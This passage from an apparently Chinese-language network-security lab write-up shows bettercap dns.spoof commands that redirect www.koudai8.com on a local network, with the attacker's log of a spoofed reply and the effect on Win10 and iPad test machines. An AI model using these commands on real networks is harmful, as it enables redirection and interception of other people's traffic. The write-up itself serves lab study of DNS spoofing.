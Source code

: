   ```shell
  set dns.spoof.domains www.koudai8.com
  set dns.spoof.address 1.1.1.1
  dns.spoof on
  ```

- 再次运行 *Win10* 目标机器上的 `ping` 指令，观察到攻击主机上出现：

  ```
  192.168.31.0/24 > 192.168.31.229 >> [22:59:56] [sys.log] [inf] dns.spoof sending spoofed DNS reply for www.koudai8.com (->1.1.1.1) to 192.168.31.251 : 3c:95:09:df:34:89 (Liteon Technology Corporation) - LAPTOP-FI0PRTFC.local.
  ```

  <img src="./cut/截屏2021-05-04 下午11.06.05.png" alt="avatar" style="zoom:50%;" />

  *Win10* 目标机器上 `ping` 指令输出：

  <img src="./cut/WechatIMG58.jpeg" alt="avatar" style="zoom:50%;" />

- 同样设置一个 *ipad* 作为测试载体，在 *Safari* 内访问 `www.koudai8.com`，发现报错 `Error 1001`：

  <img src="./cut/IMG_B0EEAAF13CE0-1.JPEG" alt="avatar" style="zoom:30%;" />
